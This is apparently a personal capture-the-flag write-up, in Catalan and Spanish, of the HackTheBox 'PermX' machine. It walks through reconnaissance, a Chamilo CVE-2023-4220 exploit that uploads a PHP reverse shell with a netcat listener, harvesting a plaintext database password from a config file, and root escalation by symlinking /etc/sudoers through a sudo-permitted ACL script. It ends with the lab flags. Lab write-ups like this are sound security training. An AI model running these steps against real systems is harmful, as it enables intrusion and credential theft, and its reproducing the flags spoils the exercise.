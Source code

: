 # PermX

Plataforma: HackTheBox
OS: Linux
Level: Easy
Status: Done
Complete: Yes
Created time: 2 de diciembre de 2024 13:58
IP: 10.10.11.23

# Reconocimiento

> NMAP all ports:
> 

```bash
sudo nmap -p-  -open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.23 -oG allports

```

![image.png](<imagenes/image 9.png>)

> NMAP specific ports
> 

```bash
sudo nmap -p22,80 -sCV 10.10.11.23 -oN nmap
```

![image.png](<imagenes/image 10.png>)

## Serveis Web

Entrem  a la web i ens dona error. Ens posa que no pot conectar amb permx.htb
Afegitm el domini al host

```bash
echo -n '10.10.11.23 permx.htb' | sudo tee -a /etc/hosts > /dev/null

```

Llavors si accedir a la web:

![image.png](<imagenes/image 11.png>)

BUsquem subdominis amnb ffuf

```bash
fuf -w [seclist] -u [<http://ejemplo.com>] -H "Host: FUZZ.board.htb" -fs 15949

```

Trobem subdomini : lms
S'afegeix al etc/hosts

![image.png](<imagenes/image 12.png>)

Busquem directoris amb gobuster:

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -u <http://lms.permx.htb> -x .php,txt,py

```

![image.png](<imagenes/image 13.png>)

Trobem un robots.txt

![image.png](<imagenes/image 14.png>)

# Análisis de vulnerabilidades

> Exploit: Veiem que hi ha un exploit per aquesta versio de Cahaleon
> 

[https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit](https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit)

# Explotación de vulnerabilidades

Executem exploit:

```bash
./CVE-2023-4220.sh -f php-reverse-shell.php -h <http://lms.permx.htb/> -p 4444
nc -lvp 4444

```

Obtenim una web shell:

![image.png](<imagenes/image 15.png>)

Busquem usuaris al etc/passwd

Usuari: mtz

Busquem permissos:

```bash
find / -perm -u=s -type f 2>/dev/null

```

![image.png](<imagenes/image 16.png>)

Busquem credencials a la configuracio de Chamilo

fitxer: var/www/chamilo/conf/configration.php

![image.png](<imagenes/image 17.png>)

User: chamilo
Pass: 03F6lY3uXAP2bkW8
Password encription: bcrypt

# Escalada de privilegios

Provem a fer servir aquest password amb usuari trobat abans: mtz

![image.png](<imagenes/image 18.png>)

 Busquem permisos per usuar mtz

```bash
sudo -l
```

![image.png](<imagenes/image 19.png>)

Trobem un script que dona permisos. El podem executar amb sudo sense password

![image.png](<imagenes/image 20.png>)

Passa 3 variables i nomes funciona si estan dins de /home/mtz

provem de crear un acces directe a un fitxer de permisos (sudoers) per convertirnos en root

```bash
ln -s /etc/sudoers pwn
sudo ./acl.sh mtz rwx /home/mtz/pwn

```

Editem ara el fitxer pwn (sudoers) i posem al usuar mtz com a root

![image.png](<imagenes/image 21.png>)

Depres provem a convertirnos en root:

![image.png](<imagenes/image 22.png>)

# Bandera(s)

> User : 701d713ff73d48ac5f6b9ae821f003b7
Root: 1222f54c2310e04989eca2655389880a
>